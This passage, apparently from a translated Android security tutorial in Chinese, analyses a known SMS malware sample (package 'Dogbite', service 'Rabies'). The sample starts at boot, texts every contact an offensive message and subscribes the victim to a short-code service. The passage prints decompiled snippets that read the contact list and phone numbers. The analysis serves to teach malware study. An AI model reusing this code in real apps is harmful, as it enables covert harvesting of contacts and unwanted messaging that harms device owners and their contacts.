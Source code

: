 1.  通过进一步分析类文件，我们可以看到 `onStart` 函数调用了 `sendTextMessage` 发送一条标题为 `I take pleasure in hurting small animals, just thought you should know that` 的短信。![如何操作...](img/image_02_006.jpg)

## 它是如何工作的...

恶意代码被注入为一个名为 `Dogbite` 的包。该包定义了一个名为 `Rabies` 的服务，该服务在受损 Android 设备启动时在后台启动，并执行核心功能。一旦服务启动，它会向你手机上联系人列表中的所有人发送短信。

该应用还向 `73882` 发送了一条包含词语 `text` 的短信，显然这将受损设备的用户注册为 **PETA**（**美国伦理对待动物协会**）运营的警报服务用户。

这是它的工作原理：

以下代码遍历每个联系人：

```
Cursor localCursor1 = getContentResolver().query(ContactsContract.Contacts.CONTENT_URI, null, null, null, null); 

```

随后的代码用于将联系人列表加载到 `str` 字符串中：

```
if (localCursor1.getCount() > 0); 
    String str; 
    do 
    { 
      if (!localCursor1.moveToNext()) 
        return; 
      str = localCursor1.getString(localCursor1.getColumnIndex("_id")); 
    } 
    while (Integer.parseInt(localCursor1.getString(localCursor1.getColumnIndex("has_phone_number"))) <= 0); 

```

然后，它使用联系人内容提供者来返回加载的电话号码：

```
Cursor localCursor2 = getContentResolver().query(ContactsContract.CommonDataKinds.Phone.CONTENT_URI, null, "contact_id = " + str, null, null);  

```
